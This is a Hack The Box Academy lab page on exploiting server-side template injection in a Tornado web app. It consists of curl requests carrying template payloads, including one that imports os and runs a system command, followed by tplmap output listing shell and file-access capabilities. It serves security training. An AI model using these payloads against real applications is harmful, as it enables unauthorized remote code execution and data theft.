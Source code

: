 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/145/section/1344
// Platform Version: V1
// Module ID: 145
// Module Name: Server-side Attacks
// Module Difficulty: Medium
// Section ID: 1344
// Section Title: SSTI Exploitation Example 2
// Page Title: Hack The Box - Academy
// Page Number: 16
-->

# SSTI Exploitation Example 2

**Module Name:** Server-side Attacks **Page Number:** 16

#### 

#### SERVER-SIDE ATTACKS

# SSTI Exploitation Example 2

![https://academy.hackthebox.com/storage/modules/145/img/tornado1.png](https://academy.hackthebox.com/storage/modules/145/img/tornado1.png)

#### cURL - Interacting with the Target

``` shell-session
ndefstathiou@htb[/htb]$ curl -X POST -d 'email=${7*7}' http://<TARGET IP>:<PORT>/jointheteam

<html>
<head>
<style>
form {
margin: 0 auto;
width: 200;
}
</style>
</head>
<body>
<h1 style="text-align: center;">~ Damn Hackers ~</h1>
<h2 style="text-align: center;">Gentlemen, we can rebuild it <br />We have the technology <br />We have the capability to make the worlds first bionic website<br />Better than it was before <br />Better, Stronger, Faster.</h2>
<h2 style="text-align: center;"><em>Great!</em></h2>
<h3 style="text-align: center;"><em>Email ${7*7} has been subscribed. You&#39;ll hear from us soon!</em></h3>
</body>
```

#### cURL - Interacting with the Target

``` shell-session
ndefstathiou@htb[/htb]$ curl -X POST -d 'email={{7*7}}' http://<TARGET IP>:<PORT>/jointheteam

<html>
<head>
<style>
form {
margin: 0 auto;
width: 200;
}
</style>
</head>
<body>
<h1 style="text-align: center;">~ Damn Hackers ~</h1>
<h2 style="text-align: center;">Gentlemen, we can rebuild it <br />We have the technology <br />We have the capability to make the worlds first bionic website<br />Better than it was before <br />Better, Stronger, Faster.</h2>
<h2 style="text-align: center;"><em>Great!</em></h2>
<h3 style="text-align: center;"><em>Email 49 has been subscribed. You&#39;ll hear from us soon!</em></h3>
</body>
```

#### cURL - Interacting with the Target

``` shell-session
ndefstathiou@htb[/htb]$ curl -X POST -d 'email={{7*'7'}}' http://<TARGET IP>:<PORT>/jointheteam

<html>
<head>
<style>
form {
margin: 0 auto;
width: 200;
}
</style>
</head>
<body>
<h1 style="text-align: center;">~ Damn Hackers ~</h1>
<h2 style="text-align: center;">Gentlemen, we can rebuild it <br />We have the technology <br />We have the capability to make the worlds first bionic website<br />Better than it was before <br />Better, Stronger, Faster.</h2>
<h2 style="text-align: center;"><em>Great!</em></h2>
<h3 style="text-align: center;"><em>Email 49 has been subscribed. You&#39;ll hear from us soon!</em></h3>
</body>
```

``` shell-session
ndefstathiou@htb[/htb]$ curl -X POST -d 'email={{_self.env.display("TEST")}}' http://<TARGET IP>:<PORT>/jointheteam

<html><title>500: Internal Server Error</title><body>500: Internal Server Error</body></html>
```

``` shell-session
ndefstathiou@htb[/htb]$ curl -X POST -d 'email={{config.items()}}' http://<TARGET IP>:<PORT>/jointheteam

<html><title>500: Internal Server Error</title><body>500: Internal Server Error</body></html>
```

``` shell-session
ndefstathiou@htb[/htb]$ curl -X POST -d 'email={{ [].class.base.subclasses() }}' http://<TARGET IP>:<PORT>/jointheteam

<html><title>500: Internal Server Error</title><body>500: Internal Server Error</body></html>
```

``` shell-session
ndefstathiou@htb[/htb]$ curl -X POST -d "email={% import os %}{{os.system('whoami')}}" http://<TARGET IP>:<PORT>/jointheteam

<html>
<head>
<style>
form {
margin: 0 auto;
width: 200;
}
</style>
</head>
<body>
<h1 style="text-align: center;">~ Damn Hackers ~</h1>
<h2 style="text-align: center;">Gentlemen, we can rebuild it <br />We have the technology <br />We have the capability to make the worlds first bionic website<br />Better than it was before <br />Better, Stronger, Faster.</h2>
<h2 style="text-align: center;"><em>Great!</em></h2>
<h3 style="text-align: center;"><em>Email 0 has been subscribed. You&#39;ll hear from us soon!</em></h3>
</body>
```

#### tplmap.py

``` shell-session
ndefstathiou@htb[/htb]$ ./tplmap.py -u 'http://<TARGET IP>:<PORT>/jointheteam' -d email=blah

    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if POST parameter 'email' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  POST parameter: email
  Engine: Tornado
  Injection: {{*}}
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, python code

[+] Rerun tplmap providing one of the following options:

    --os-shell				Run shell on the target
    --os-cmd				Execute shell commands
    --bind-shell PORT			Connect to a shell bind to a target port
    --reverse-shell HOST PORT	Send a shell back to the attacker's port
    --upload LOCAL REMOTE	Upload files to the server
    --download REMOTE LOCAL	Download remote files
```

# 

# 

#### Questions

####